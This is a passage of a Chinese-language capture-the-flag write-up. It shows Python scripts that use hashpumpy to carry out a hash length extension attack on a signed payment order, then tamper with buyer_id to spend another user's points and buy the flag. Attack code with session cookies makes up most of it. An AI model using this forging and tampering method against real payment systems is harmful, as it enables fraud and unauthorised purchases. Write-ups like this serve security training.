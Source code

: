 ```python
	url = 'http://118.89.198.146:50006/paymentGatewayV2/cid-1145141919/810893/check.jsp?signature='
	
	# message = urllib.quote(urllib.unquote(hash[1]))  不需要编码为URL
	message = hash[1]
    print i,hash[0]
        
	url += hash[0]
	
	headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
		'cookie': 'csrftoken=9wFi4GbKQdcis91qJP28DEmZZerQXdqBWt53kHmwUNp1iEFVnEVEVFmYuX5eBKUG; JSESSIONID=buakhmracrlqcyxt726ui8u5jymu0ov4',
		'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
		'Accept-Language': ':zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
		'Accept-Encoding': 'gzip, deflate'
	}

	#res = requests.post(url=url,headers=headers,data=message,proxies={'http': '127.0.0.1:8080'})
	res = requests.post(url=url,headers=headers,data=message)

    if 'alert alert-dange' not in res.content:
       print key_length;
       break
```

![1542281973455](C:\Users\LegnaVI\AppData\Roaming\Typora\typora-user-images\1542281973455.png)

得到长度后，就是参数污染了。

直接添加`good_id=42`失败了，换了不少姿势。

突然想到题面的信息：有个积分上万的人，你能越权消耗他的积分，购买到 FLAG 吗？

==划重点==  用别人的钱买flag  ==划重点==

然后就是换`buyer_id`，第一反应是 0、1 ? 不，没用，直接挂个脚本尝试下。31，购买成功！

期间遇到的麻烦：页面找不到。最初以为是自己误删了某个信息，重新复制一下仍然报错。

如果请求成功，但是请求的内容不存在，自然会报错，就比如说利用 buyer_id = 666 来买 flag，也会报错。报错的话就改参数就好。

```python
import hashpumpy
import urllib
import requests

signature = '7d542ad0766a6459e6048ed854091987'
original = 'order_id=162&buyer_id=39&good_id=33&buyer_point=480&good_price=300&order_create_time=1542231522.790944'
#add_data = '&good_id=42'
#add_data = '&buyer_id=0'
#add_data = '&buyer_id=1&good_id=42'
#add_data = '&good_id=42&good_id=42'
#add_data = '&good_id=42&buyer_point=999'
#add_data = '&good_id=42&buyer_point=999&good_price=998'
#add_data = '&buyer_point=999&good_id=42&good_price=998'
key_length = 1024
headers={
        'Content-Type': 'application/x-www-form-urlencoded',
        'cookie': 'csrftoken=9wFi4GbKQdcis91qJP28DEmZZerQXdqBWt53kHmwUNp1iEFVnEVEVFmYuX5eBKUG; JSESSIONID=buakhmracrlqcyxt726ui8u5jymu0ov4',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': ':zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate'
}
```